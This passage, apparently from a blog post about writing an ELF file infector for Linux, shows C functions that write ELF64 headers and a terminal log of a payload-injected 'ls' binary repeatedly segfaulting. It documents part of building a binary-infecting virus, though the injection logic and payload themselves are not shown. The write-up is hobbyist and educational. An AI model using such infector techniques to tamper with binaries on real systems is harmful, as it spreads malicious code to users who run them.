 ```C
// Write the ELF64 program headers to the file at offset phoff
// Return 0 on success, or non-zero on failure

int write_elf64_program_headers(int fd, uint64_t phoff, uint16_t phnum, Elf64_Phdr *phdrs) {
    if (lseek(fd, phoff, SEEK_SET) < 0) {
        fprintf(stderr, "Error seeking to program headers offset for writing\n");
        return 1;
    }
    size_t total_size = sizeof(Elf64_Phdr) * phnum;
    if (write(fd, phdrs, total_size) != (ssize_t)total_size) {
        fprintf(stderr, "Error writing program headers to ELF file\n");
        return 1;
    }
    return 0;
}


// Write the ELF64 header to the beginning of the file
// Return 0 on success, or non-zero on failure

int write_elf64_header(int fd, Elf64_Ehdr *header) {
    if (lseek(fd, 0, SEEK_SET) < 0) {
        fprintf(stderr, "Error seeking to beginning of ELF file for header writing\n");
        return 1;
    }
    if (write(fd, header, sizeof(Elf64_Ehdr)) != sizeof(Elf64_Ehdr)) {
        fprintf(stderr, "Error writing ELF header to file\n");
        return 1;
    }
    return 0;
}
````



## Assembling a Payload

Embarrassingly, it took me a little while to get a reliable payload working. Initially, my program would segfault and I thought I messed up the infector. At another point, it would segfault while the shell would survive. And as I got closer, it would sometimes *almost* work--but yet still segfault.

```text
$ ./ls
Segmentation fault (core dumped)
$ ./ls
Segmentation fault (core dumped)
$ ./ls
elf_infector  maybe    maybe2    maybe3.s  maybe4.s  maybe5.s  maybe6.s  maybe7.s  maybe8.s
ls        maybe.s  maybe2.s  maybe4    maybe5    maybe6    maybe7    maybe8
Segmentation fault (core dumped)
$ ./ls
elf_infector  maybe    maybe2    maybe3.s  maybe4.s  maybe5.s  maybe6.s  maybe7.s  maybe8.s
ls        maybe.s  maybe2.s  maybe4    maybe5    maybe6    maybe7    maybe8
Segmentation fault (core dumped)
$ ./ls
Segmentation fault (core dumped)
$ ./ls
elf_infector  maybe    maybe2    maybe3.s  maybe4.s  maybe5.s  maybe6.s  maybe7.s  maybe8.s
ls        maybe.s  maybe2.s  maybe4    maybe5    maybe6    maybe7    maybe8
Segmentation fault (core dumped)


(╯°□°）╯︵ ┻━┻

```